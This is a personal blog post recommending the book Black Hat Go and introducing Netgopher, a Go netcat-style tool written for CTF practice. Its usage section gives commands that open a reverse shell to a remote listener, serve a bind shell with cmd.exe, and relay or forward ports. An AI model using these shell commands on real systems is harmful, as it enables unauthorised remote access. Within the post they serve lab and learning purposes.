 ```yaml
---
defaults:
  # _posts
  - scope:
      path: ""
      type: posts
    values:
      layout: single
      author_profile: true
      read_time: true
      comments: false
      share: true
      related: true
title:  "Black Hat Go and Netgopher"
date:   2021-01-30 21:00:00 +0000
header:
  overlay_image: /assets/images/posts/netgopher/go.gif
  teaser: /assets/images/posts/netgopher/go.gif
  caption: A very excellent animated gopher courtesy of [egonelbre](https://github.com/egonelbre).
excerpt: "New tool who dis?"
categories:
  - Labs & Hacking
  - Programming
tags:
  - Lab
  - Go
feature_row1:
  - image_path: /assets/images/posts/netgopher/BHG.webp
    excerpt: "Black Hat Go is an excellent No Starch Press book covering the use of Golang for Pen Testing, bug bounty and other offensive security practices. It also has a pretty cool cover."
    url: https://nostarch.com/blackhatgo
    btn_label: "Check out The Book"
    btn_class: "btn--inverse"
---
```


# What's all this about?

This week, I dug out my dusty copy of Black Hat Go, a book I've been getting 
around to reading for an age. Long story short - I loved the first couple of 
chapters so much I thought I'd recommend it right off the bat. 

{% include feature_row id="feature_row1" type="left" %}

## How will this change my life?

If you're into your offensive security, using Go will add a really nice new 
skillset to your box of tricks. Go will let you build tools (simple or complex, 
up to you!) that compile to a single (fairly small) 'blob', with simple 
concurrency and thread management, excellent cross-compilation (No Wine!) and 
a compilation/testing command that's almost as simple as developing a Python 
script.  

I'd suggest that working with Go like this is probably going to be a bit easier 
if you are familiar with some scripting or programming, even if it's just some 
simple usages or concepts, like variables, bits and bytes and so on. If you're
comfortable working with Bash or maybe a little bit of Python (even just being 
able to read these) you'll have a great start. but don't let that hold you back 
if you're keen! I've gone through the first chapter or two so far and in just 
a couple of evenings, the book has guided me through some really nice concepts
in such a simple way.

Most of my exposure to compiled languages comes from solving awkward Mathematical
problems at Univeristy, so learning Go was a little outfacing because I wanted
to avoid that again. So far it's been nothing like that, it's giving me serious 
Python vibes in the ease of drafting, testing and availability/usability of 
(mostly core) Libraries. I think I might be a convert! 

With all that said, If you're worried about the learning curve, you could always 
get the basic syntax and conventions down via Codeacademy, Sololearn etc. first,
then pick up something more technical like this, **just do it!**

# Netgopher

Enter Netgopher. *'What is that?'* I hear you cry? Well to be honest, it's the same 
example Netcat mimic (ish) that every person starting on Black Hat Go or Black Hat 
Python (Another No Starch belter) puts on their Github. That said, I've tried 
to make this super simple implementation of Netcat a bit more useful for myself
as I work CTFs and so on. 

In addition to the usual example TCP connection functionality, I've Googled it 
up and added some better command line parsing and options goodness, whilst most 
of the Netcat 'extra features' (hexdump, UDP etc.) are not included, you can do 
enough to get by on simple HackTheBox/TryHackMe/VulnHub boxes with TCP 
connections, command execution and built-in  port relaying (my personal fave!). 

{% include figure
image_path="/assets/images/posts/netgopher/relay.gif"
alt="Example gif of Relay usage" caption="An example of a connection to connection 
relay. A Pair of listeners are started, then a connecting relay is set up, by 
starting two connections via Netgopher." %}

So if you're curious about Go, maybe you're thinking about it, why not grab this 
script and see what it's capable of? If I can do this in a couple of evenings, 
you definately can! Read the source and play with Netgopher as set out below 
and happy hacking! 

The rest of this post is actually a glorified excerpt from the README for ng on 
my [Github Repo](https://github.com/blackfell/ng){:target="_blank"}. So feel 
free to check that out too if you know where you're going from here.

# Installation

You can, **but probably shouldn't**, get Netgopher by running the following 
command once you have Go installed:

```
❯ go get -u "github.com/blackfell/ng"
```

## Why not? 

Well installing via *go get* will only install ng in your local $GOPATH; 
additionally, the binary will be fairly large and compiled only for your OS. 

I wrote this little application with CTFs in mind, meaning I want a smaller 
binary (to move around the network quickly), preferably with multi-platform 
support, so I can hack on Windows, Linux and more. So... **grab a copy of all the 
[released binaries](https://github.com/Blackfell/ng/releases/tag/v0.1) instead**
, which have been cross compiled and stripped down to ~ 2MB. 

# Examples

## Basic Usage

```
❯ ng                                                                                                 ─╯
Usage of ng:
  -c value
        Make a TCP Connection : -c 127.0.0.1:8080
  -e string
        Execute a command (quote) : -e '/bin/bash -i'
  -h    Print detailed usage.
  -l value
        Listen on a port : -l 4444
  -v    Display detailed progress messages.
```

The simplest examples are the classic netcat connect and listen functions. You 
can try this out with a listener/connection pair:

{% include figure
image_path="/assets/images/posts/netgopher/basic.gif"
alt="Example gif of listener and connection usage" caption="An example of 
listeners and connections.A listener is started, then a connection made from 
the same host." %}

## CTF Use Cases
Some really common use cases I have are:
### Start a shell and connect back to a remote listener
```
# Start a listener on your remote machine
❯ ng -l 1234
# Start the shell
❯ ng -c remote_host:1234 -e '/bin/bash -i'
```
### Start a shell on a bind listener
This is useful in certail cases because you can create as many conenctions 
as you like - if your shell drops, just re-connect.
```
❯ ng -l 1234 -e 'cmd.exe'
# Now connect up to the shell
❯ ng -c serving_host:1234
C:\Windowss\system32>
^C
# Oh no! Your shell dropped - try again
❯ ng -c serving_host:1234
C:\Windowss\system32>

```
### Forward a TCP port back to a remote listener
```
# Start a relay on your local host
❯ ng -l 1234 -l 445
# On your remote host, forward a connection to local port 445
❯ ng -c local_hostname:1234 -c 127.0.0.1:445
# Your local machine now has access to that remote port 445 on 127.0.0.1:445
```
### Port 'spoofing' - Forward connections to another port
```
# Listen on port 1234 and forward connections to ssh server
❯ ng -l 1234 -c 127.0.0.1:22
```
# That's it!

So there you have it - if this piqued your interest why not grab a copy of 
Netgopher and have a mess around, or read the source? If you have any thoughts, 
I welcome issues, pulls, emails, tweets and more, just hit one of the socials 
below. I hope I've insipired you to check out some Go, or even program a 
little in something - anything.

## Get your copy on sale

It's also worth noting that if you're into this, 
[Humble Bundle](https://www.humblebundle.com/) also host periodic super cheap 
sales of No Starch Press books- that's where I got my copy (in eBook form) and 
it might be a good idea to keep your eyes peeled for similar sales in future. 
Peace!
